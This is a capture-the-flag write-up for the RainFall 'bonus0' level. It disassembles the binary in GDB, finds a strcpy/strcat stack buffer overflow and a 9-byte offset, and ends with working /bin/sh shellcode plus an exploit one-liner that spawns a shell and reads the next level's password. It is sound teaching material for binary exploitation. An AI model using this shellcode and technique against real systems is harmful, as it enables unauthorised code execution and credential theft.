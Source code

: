 # bonus0

## exploring the binary
```shell
bonus0@RainFall:~$ ./bonus0
 -
phantom
 -
phantom
phantom phantom
bonus0@RainFall:~$ ./bonus0
 -
phantom
 -
society
phantom society
```
The binary waits for two strings from standard input, then prints them together, separated by a space.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
```
During runtime, the function <code>pp()</code> is called from <code>main()</code>, and the <code>puts()</code> function is used to print the output. We inspect <code>pp()</code>:

```shell
Dump of assembler code for function pp:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	push   %edi
   0x08048522 <+4>:	push   %ebx
   0x08048523 <+5>:	sub    $0x50,%esp
   0x08048526 <+8>:	movl   $0x80486a0,0x4(%esp)
   0x0804852e <+16>:	lea    -0x30(%ebp),%eax
   0x08048531 <+19>:	mov    %eax,(%esp)
   0x08048534 <+22>:	call   0x80484b4 <p>
   0x08048539 <+27>:	movl   $0x80486a0,0x4(%esp)
   0x08048541 <+35>:	lea    -0x1c(%ebp),%eax
   0x08048544 <+38>:	mov    %eax,(%esp)
   0x08048547 <+41>:	call   0x80484b4 <p>
   0x0804854c <+46>:	lea    -0x30(%ebp),%eax
   0x0804854f <+49>:	mov    %eax,0x4(%esp)
   0x08048553 <+53>:	mov    0x8(%ebp),%eax
   0x08048556 <+56>:	mov    %eax,(%esp)
   0x08048559 <+59>:	call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:	mov    $0x80486a4,%ebx
   0x08048563 <+69>:	mov    0x8(%ebp),%eax
   0x08048566 <+72>:	movl   $0xffffffff,-0x3c(%ebp)
   0x0804856d <+79>:	mov    %eax,%edx
   0x0804856f <+81>:	mov    $0x0,%eax
   0x08048574 <+86>:	mov    -0x3c(%ebp),%ecx
   0x08048577 <+89>:	mov    %edx,%edi
   0x08048579 <+91>:	repnz scas %es:(%edi),%al
   0x0804857b <+93>:	mov    %ecx,%eax
   0x0804857d <+95>:	not    %eax
   0x0804857f <+97>:	sub    $0x1,%eax
   0x08048582 <+100>:	add    0x8(%ebp),%eax
   0x08048585 <+103>:	movzwl (%ebx),%edx
   0x08048588 <+106>:	mov    %dx,(%eax)
   0x0804858b <+109>:	lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:	mov    %eax,0x4(%esp)
   0x08048592 <+116>:	mov    0x8(%ebp),%eax
   0x08048595 <+119>:	mov    %eax,(%esp)
   0x08048598 <+122>:	call   0x8048390 <strcat@plt>
   0x0804859d <+127>:	add    $0x50,%esp
   0x080485a0 <+130>:	pop    %ebx
   0x080485a1 <+131>:	pop    %edi
   0x080485a2 <+132>:	pop    %ebp
   0x080485a3 <+133>:	ret
End of assembler dump.
```
We see that <code>pp()</code> invokes potentially exploitable functions such as <code>strcpy()</code> and <code>strcat()</code>, and it also calls <code>p()</code> twice. We proceed to disassemble <code>p()</code>.
```shell
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
```
This function is responsible for invoking the <code>read()</code> function. We observe that the value <code>0x1000</code> (4104) is pushed into the memory location specified by <code>0x8(%esp)</code>, setting up the buffer size for the <code>read()</code> call. The effective address of the memory location <code>-0x1008(%ebp)</code> is then loaded into the <code>eax</code> register, which limits the bytes read to 4096 (diff 8).

## buffer overflow
The buffer overflow limitation will be determined by <code>strcat()</code>, so we will examine the buffer's state before <code>puts()</code> is called in <code>main()</code>. Our objective is to pass two long strings as parameters and then inspect the value of the instruction pointer register (<code>EIP</code>) at the point of <code>puts</code> execution.
``` shell
(gdb) b *0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmn

Breakpoint 1, 0x080485c0 in main ()
(gdb) step
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���
Warning:
Cannot insert breakpoint 0.
Error accessing memory address 0x51504f4e: Input/output error.

0x4d4c4b4a in ?? ()
(gdb) i reg
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff730	0xbffff730
ebp            0x49484746	0x49484746
esi            0x0	0
edi            0x0	0
eip            0x4d4c4b4a	0x4d4c4b4a
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Now, we observe that register overwriting begins at the tenth character, marked as 'J', suggesting an offset of 9. This size makes it fairly impossible to use a classic <code>ret2libc</code> attack, so we will use a <code>shellcode</code> for this purpose. The piece of hexadecimal code that we use as a payload for execution has already been pre-made for us in [shellcode injection](https://0xrick.github.io/binary-exploitation/bof5/):
``` shell
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
To export this as an environmental variable, we include <code>NOP</code> (<code>\x90</code>) within the shellcode. These instructions act as padding, ensuring that the shellcode is properly aligned within the buffer or memory space it occupies. Additionally, they make the shellcode easier to locate in environments where memory layout may shift.
``` shell
bonus0@RainFall:~$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
bonus0@RainFall:/tmp$ cc addr.c -o addr
bonus0@RainFall:/tmp$ ./addr
SCODE set at 0xbffff85b
```
The only thing left to do is to expose the address of this environmental variable, which can be easily accomplished with our custom C binary. Then, we can construct a simple input that will pass both strings (separated by <code>\n</code>) following these rules:
- the total size of the first buffer is 4096
- offset of the second string is equal to 9
- overflow will happen in the second string
``` shell
4095 * placeholder | \n | 9 * placeholder | shellcode | 150 * placeholder
```

## exploit
``` shell
bonus0@RainFall:~$ python -c 'print "F"*4095 + "\n" + "F"*9 + "\xbf\xff\xf8\x5b"[::-1] + "F"*150' > /tmp/flagb0
bonus0@RainFall:~$ cat /tmp/flagb0 - | ./bonus0
 -
 -
FFFFFFFFFFFFFFFFFFFFFFFFFFFFF[���FFFFFFF��� FFFFFFFFF[���FFFFFFF���
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
